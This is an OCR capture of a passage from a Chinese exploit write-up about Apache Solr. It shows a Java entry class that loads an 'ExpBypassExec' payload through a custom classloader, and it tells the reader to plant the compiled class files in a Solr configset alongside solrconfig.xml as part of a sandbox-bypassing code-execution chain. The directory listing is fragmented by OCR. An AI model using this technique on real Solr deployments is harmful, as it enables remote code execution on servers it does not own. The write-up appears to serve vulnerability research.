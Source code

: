 入口函数

```bash
package zk_backup_0.configs.conf1;

public class ExpBypassMain {
    static {
        ExpBypassLoader loader = new ExpBypassLoader();

        try {
            // 注意需要使用全限定类名，不然自定义的classloader是加载不到的
            Class<?> clz = Class.forName("zk_backup_0.configs.conf1.ExpBypassExec", true, loader);
            Object object = clz.newInstance();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }

    }
}
```

将以上三个类编译后生成的类文件全部放入 `conf1`，注意有 4 个类文件

> 前面我们提到由于 solr docker 的 jdk 是 17.10，为了防止版本差异导致运行出错，我们也使用 jdk17 编译，然而这个绕过姿势中的 AccessController 类在 jdk17 中废弃了，不过亲测 jdk8 编译也是可以的

```bash
conf1
├──

ExpBypassExec$1
.
class
├──

ExpBypassExec
.
class
├──

ExpBypassLoader
.
class
├──

ExpBypassMain
.
class
├──
 lang
├──
 managed
-
schema
.
xml
├──
 protwords
.
txt
├──
 solrconfig
.
xml
├──
 stopwords
```